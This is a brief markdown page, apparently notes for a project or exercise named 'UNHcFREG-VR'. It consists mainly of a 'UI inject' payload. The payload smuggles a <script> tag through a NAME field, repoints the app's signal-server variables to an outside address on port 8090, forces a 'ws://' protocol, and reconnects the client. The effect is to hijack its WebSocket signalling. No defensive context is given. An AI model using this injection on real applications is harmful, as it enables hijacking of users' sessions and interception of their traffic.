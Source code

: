 # UNHcFREG-VR

## UI inject
~~~
initDebug();UNITYVERSION='0.34.0';
NAME="Mallory<script>signalServerURL=SIGNAL1=SIGNAL2=SIGNAL3='172.26.104.1:8090';
     _0x6af9[959]='ws://';connectToSignalServer();</script>"
~~~
